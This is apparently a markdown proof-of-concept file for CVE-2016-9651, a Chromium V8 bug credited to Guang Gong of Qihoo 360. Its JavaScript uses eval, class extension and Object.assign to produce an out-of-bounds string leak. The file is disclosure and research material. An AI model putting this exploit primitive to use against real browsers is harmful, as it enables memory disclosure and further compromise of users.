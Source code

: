 # CVE-2016-9651

- Date: Nov 2016
- Credit: Guang Gong of Alpha Team Of Qihoo 360

## PoC

```javascript
function getHiddenValue(){
    var obj = {};
    var oob = "/re/";
    //oob = oob.replace("re","*".repeat(0x2000));
    oob = oob.replace("re","*".repeat(0x100000));
    var str =  'class x extends Array{'+oob+"}";
    var fun = eval(str);
    Object.assign(obj,fun);
    return obj;
}
function makeOobString(){
    var hiddenValue = getHiddenValue();
    var str =  'class x extends Array{}';
    var fun = eval(str);
    Object.assign(fun,hiddenValue);
    var oobString = fun.toString();
    return oobString;
}
var oobString = makeOobString();
```

## Reference

- [Issue](https://crbug.com/664411)

